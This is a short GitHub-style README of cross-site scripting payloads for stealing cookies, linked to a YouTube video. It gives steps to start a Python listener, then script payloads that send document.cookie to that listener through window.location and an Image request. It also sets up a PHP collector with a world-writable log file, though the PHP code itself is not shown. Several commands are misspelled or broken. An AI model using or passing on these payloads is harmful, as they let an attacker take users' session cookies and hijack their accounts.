 # Stealling_Cookies

All Payload that used from this Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1- Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2- write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies without go to another window :

1- Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2- Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1- go to html File:

[~] YasserREED> cd  /var/www/html

2- Make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

2- Make log.txt file:

YasserRED> sudo touch log.txt

3- give all Privileges:

YasserREED> sudo chmod 777 log.txt


